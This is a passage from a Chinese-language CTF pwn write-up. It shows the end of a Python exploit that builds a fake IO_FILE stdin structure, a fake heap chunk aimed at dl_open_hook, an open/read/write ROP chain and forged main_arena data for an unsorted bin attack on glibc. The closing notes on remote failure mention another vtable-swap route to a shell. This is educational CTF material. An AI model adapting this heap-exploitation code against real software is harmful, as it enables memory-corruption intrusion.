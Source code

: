 ```python
	sleep(5)
	info_addr("gadget",gadget)
		#3.1 stdin fifo
	fake_stdin=p64(IO_stdin+0x341)+p64(0)*6+b"\xff"*8+p64(0xa000000)+p64(io_stdfile_0_lock)+b'\xff'*8+\
			 p64(0)*5+b'\xff'*4+b'\x00'*4+p64(0)*2+p64(io_file_jumps)
		#3.2 fake chunk & ROP
	fake_chunk=p64(0)+p64(0x41)+p64(0)+p64(dl_open_hook-0x10)+\
				p64(0x20)+p64(0x20)+p64(0)*2+p64(0x40)+p64(0x621)
	ORW=p64(rdi_ret)+p64(heap+0x10)+p64(rsi_ret)+p64(4)+\
			   p64(rdx_ret)+p64(0)+p64(_open)+\
			   p64(rdi_ret)+p64(3)+p64(rsi_ret)+p64(heap+0x30)+\
			   p64(rdx_ret)+p64(0x100)+p64(_read)+\
			   p64(rdi_ret)+p64(2)+p64(rsi_ret)+p64(heap+0x30)+\
			   p64(rdx_ret)+p64(0x20)+p64(_write)
	fake_wide=(fake_chunk+ORW).ljust(0x140,b'\x00') #0x140 bytes
		#3.3 hook
	four_hook=p64(0)*2+p64(0)+p64(0)  #0x20 bytes
		#3.4 main_arena data
	main_arena=p64(0x100000000)+p64(0)*10+p64(gadget)+p64(IO_stdin+0xa0)*3+\
				p64(setcontext+53)+p64(_main_arena+104)
	for i in range(7):
		main_arena+=p64(_main_arena+120+i*0x10)*2
	main_arena+=p64(IO_stdin+0xf0)+p64(ret)
	payload=fake_stdin+fake_wide+four_hook+main_arena
		#3.5 unsorted bin attack & call dl_open_mode
	s(payload)
	#debug()
	itr()

exp()

```

> 打远程时，无法执行ROP链，怀疑是由于标准输出关闭后，没有字符来决定发送时机，导致发送数据丢，造成。说白了就是网络延时太高了，如果师傅们发现是别的问题，恳请告知。

Pass：还有一种方法是修改IO_stdin的vtable为IO_str_jumps，然后利用其的underflow来获得shell，不过不知道是否可以用underflow来执行ROP链，之后可以尝试，欢迎师傅们来交流。

### 参考

[CTF中带来的IO_FILE新思路](https://www.77169.net/html/184969.html)
